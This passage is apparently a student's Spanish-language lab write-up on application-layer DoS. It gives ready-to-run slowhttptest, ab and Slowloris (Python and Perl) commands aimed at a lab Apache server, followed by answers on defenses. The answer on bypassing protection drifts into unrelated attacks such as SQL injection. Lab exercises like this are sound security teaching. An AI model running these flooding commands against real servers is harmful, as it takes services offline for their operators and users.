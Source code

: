 > By spoofing your IP, the attacker sends requests, but the response to those requests is sent to your server. This can create a DoS attack because while the the attacker's request is very small, usually a single packet of about 50 bytes, the response has up to 10 packets between 100 and 500 bytes each. The attacker can send a relatively small amount of traffic that bounces back as a huge amount of traffic to overwhelm your server.

## APARTADO N
Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7).
> `apt install apache2`

> `curl https://www.alvarofreire.es/ > /var/www/html/index.html`

#### 1. Slowhttptest
> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking
> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python
> `git clone https://github.com/gkbrk/slowloris.git`

> `cd slowloris`

> `python3 slowloris.py 10.11.49.55 -s 500`

#### 4. Slowlori Perl
Crear archivo `slowlorys.pl` y copiar contenido de [aqui](https://github.com/GHubgenius/slowloris.pl/blob/master/slowloris.pl).

> `perl slowloris.pl -dns 10.11.49.55`

1. ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
> Con un firewall de aplicaciones web como modsecurity. Además, se deben implementar medidas de seguridad adicionales, como la configuración adecuada de listas de control de acceso (ACL), la actualización regular de software y sistemas operativos para corregir vulnerabilidades conocidas, y la monitorización constante del tráfico de red para detectar patrones sospechosos que podrían indicar un ataque. También es crucial educar a los usuarios sobre las prácticas seguras, como el uso de contraseñas fuertes y la autenticación de dos factores.

2. ¿Y si se produjese desde fuera de su segmento de red?
> Si el ataque proviene desde fuera del segmento de red, es importante implementar un firewall de red para filtrar y bloquear el tráfico no autorizado. Además, se puede utilizar una red privada virtual (VPN) para establecer conexiones seguras y cifradas desde ubicaciones externas. La configuración de reglas de firewall específicas y la segmentación de la red son prácticas efectivas para limitar el acceso no autorizado desde fuera del segmento de red.

3. ¿Cómo podría tratar de saltarse dicha protección?
> No se debe buscar ni intentar saltarse ninguna protección de seguridad. Sin embargo, desde una perspectiva educativa y ética, entender cómo se pueden superar las defensas puede ser valioso para fortalecer la seguridad. Para mejorar la protección, se podrían explorar técnicas como la inyección de SQL, ataques de fuerza bruta, o vulnerabilidades específicas del software utilizado. Luego, se deben tomar medidas para mitigar estos riesgos, como la validación adecuada de entradas, la aplicación de parches de seguridad y la configuración correcta de políticas de acceso.
